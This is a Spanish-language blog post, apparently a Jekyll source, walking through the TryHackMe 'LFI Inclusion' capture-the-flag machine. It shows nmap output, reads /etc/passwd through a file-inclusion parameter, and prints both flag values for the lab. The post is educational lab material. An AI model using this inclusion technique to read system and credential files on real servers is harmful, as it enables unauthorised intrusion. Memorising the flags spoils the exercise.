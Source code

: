 ```yaml
---
layout: post
title: Tryhackme - LFI inclusion
autor: S3cureroy
date: 2023-08-08
categories: [CTF, Tryhackme]
tags: [ LFI , enumeración , web , passwd ]
---
```


La entrada de la máquina LFI Inclusión de Tryhackme es corta, puesto que realmente, no se deben seguir los pasos habituales, como la intrusión y posterior escalada de privilegios.

Esta máquina sirve para desarrollar una técnica en concreto, y además, no dispone de medidas de seguridad que permitan filtrar la petición que se envía al servidor, por lo que facilita mucho el compromiso.

---

## Enumeración.

Como la mayoría de las máquinas, se comienza ejecutando una enumeración de los servicios y puertos mediante la herramienta **nmap**, obteniendo los puertos pertenecientes a SSH y HTTP.

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 09:31 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.60% done; ETC: 09:31 (0:00:01 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 09:31 (0:00:06 remaining)
Nmap scan report for 10.10.57.141
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

### WEB.
 
Entrando mediante el protocolo HTTP se observa que hay desplegado un blog, y revisando todos los enlaces disponibles, se accede a http://10.10.143.249/article?name=lfiattack

El parámetro "lfiattack" da pistas de qué hay que modificar, y cambiándolo por la ruta relativa de **/etc/passwd**, se obtiene el contenido del fichero.  
![LFI1][LFI1] 

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash 
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```

En el listado de usuarios se observa que existe el usuario **falconfeast** con uid 1000 y que además, tiene el directorio principal en la ruta /home/falconfeast. 

Se busca la flag del usuario en dicho directorio (se presupone que el fichero se llama user.txt, teniendo suerte y obteniendo **60989655118397345799**)   

![LFI2][LFI2]

## Flag de root.

Habiendo tenido suerte, se decide buscar la flag de root, suponiendo que ésta se encuentra en el directorio principal que aparece en el listado, y que el nombre del fichero es **root.txt**, obteniendo el siguiente flag (**42964104845495153909**)  

![LFI3][LFI3]

Como se puede ver, en este caso no es necesario escalar privilegios, ya que el propio usuario que corre el servicio web tiene permisos para ver el contenido del directorio root.

Sé que en esta situación, se podría intentar obtener una clave privada SSH, probar la contraseña "rootpassword" del comentario que se encuentra en el fichero passwd, o incluso probar otros métodos de acceso a la máquina.

Como se obtienen las dos flags mediante el método para el que está concebida la máquina, no lo considero necesario.

Espero que os haya gustado, y recordad las redes sociales si queréis contactar conmigo.

Salu2!!!

<a href="#top">Volver arriba</a>

[LFI1]: https://i.imgur.com/BNTwheR.png
[LFI2]: https://i.imgur.com/NkRmwtQ.png
[LFI3]: https://i.imgur.com/tpTBd3M.png